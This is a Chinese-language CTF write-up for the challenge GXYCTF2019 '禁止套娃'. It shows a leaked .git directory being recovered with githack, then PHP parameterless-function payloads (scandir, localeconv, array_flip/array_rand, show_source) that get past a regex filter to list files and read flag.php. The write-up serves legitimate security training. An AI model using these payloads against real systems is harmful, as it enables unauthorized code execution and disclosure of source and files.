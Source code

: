 # [GXYCTF2019]禁止套娃
TAG:PHP、GIT泄露、无参数ACE     
## 解题过程：
打开题目，并无任何有效信息，用字典扫描目录，发现/.git目录，存在源码泄露，使用githack工具获取源码  
![20210104115320](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104115320.png)  
![20210104115337](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104115337.png)  
![20210104115349](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104115349.png)  
对下载下来的源代码进行审计  
![20210104115537](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104115537.png)  
通过对源码的分析可以发现，使用正则表达式进行函数的过滤，并把字符替换掉了，使得只能通过无参数的函数  
为了找到flag，我们要尝试去扫描网站的目录，并获取源码
使用scandir('.')函数扫描当前目录下的文件，但由于参数被替换，需要使用current(localeconv())函数得到参数"."
这时的payload为：
```?exp=print_r(scandir(current(localeconv())));```  
扫描得出目录结构：  
![20210104171101](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104171101.png)  
为了从中取出flag.php，先使用```array_flip()```函数将数组的键和值交换，后使用```array_rand()```进行随机的读取  
此时的payload为：  
```?exp=print_r(array_rand(array_flip(scandir(current(localeconv())))));```  
多刷新几次就得到了  
![20210104171145](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104171145.png)  
现在来读取flag.php的源码  
因为源码中ban掉了许多关键字，常用的读取函数file_get_contents()无法使用，这里我们选择使用show_source()函数来构建payload  
```?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));```  
![20210104171339](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104171339.png)  